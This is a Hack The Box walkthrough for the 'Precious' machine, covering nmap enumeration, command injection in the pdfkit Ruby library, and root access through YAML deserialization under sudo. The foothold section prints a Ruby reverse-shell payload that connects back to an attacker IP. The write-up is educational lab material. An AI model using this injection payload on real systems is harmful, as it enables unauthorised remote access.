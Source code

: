 ```yaml
---
title: "[HTB] Precious"
menu:
  sidebar:
    name: "[HTB] Precious"
    identifier: htb-machine-precious
    parent: htb-machines
    weight: 10
tags: ["HTB"]
---
```


# Precious
## Enumeration
### Nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sC -sV -T4 10.10.11.189         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 11:09 EDT
Nmap scan report for 10.10.11.189 (10.10.11.189)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds
```
- Let's check port ```80```

![](./images/1.png)

- It's service that converts Web Pages to PDF
  - Let's supply anything and see what it returns
  - I am running Burp Suite in the background
- So after supplying any url, we receive a pdf
  - So I tried figuring out the backend service, or library that was responsible for conversion
  - I took the response data from Burp Suite and used [Cyber Chef](https://gchq.github.io/CyberChef/) to decode it

![](./images/2.png)

- We see the package and version
  - After a little bit of googling, I got

![](./images/3.png)

- We have an RCE 
  - Let's test it

![](./images/4.png)

- I set up tcpdump to listen to ICMP
  - And we get a response

![](./images/5.png)

- Let's get a foothold
## Foothold
- I used [revshells.com](https://www.revshells.com/) to create a payload for Ruby (It was revealed in Burp Suite responses and [pdfkit](https://github.com/pdfkit/pdfkit) is a Ruby package)

![](./images/6.png)

```
http://10.10.16.37:8000/index.html?p=#{'%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.37",6666))'`'}
```

- Try the payload
  - and We get a reverse shell

![](./images/7.png)

- Now we need to privesc
  - After running a [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  - We see that we have another user
```
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash                                                                                                                                                                                            
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
## User
- After checking the home directory of the ```ruby``` user
  - I found ```henry``` credentials
  - And ```su``` to ```henry```

![](./images/8.png)

- Let's get root
## Root
- The first thing I check is ```sudo``` privileges
  - And we get a result

![](./images/9.png)

- Let's check the file
  - According to comments it loads the list of dependencies in the ```dependencies.yaml``` and compares to the ones installed
  
![](./images/10.png)

- After googling
  - We find that there is a [yaml injection](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/)
  - or https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml

![](./images/11.png)

- Check the version

![](./images/12.png)

- So let's try
  - Firstly, it seems like the script searches for ```dependencies.yaml``` from where we execute the script
  - So we can create ```dependencies.yaml``` anywhere where we have privileges
  - Copy the payload from the links above

![](./images/13.png)

- Run the command
  - And we get our flag

![](./images/14.png)
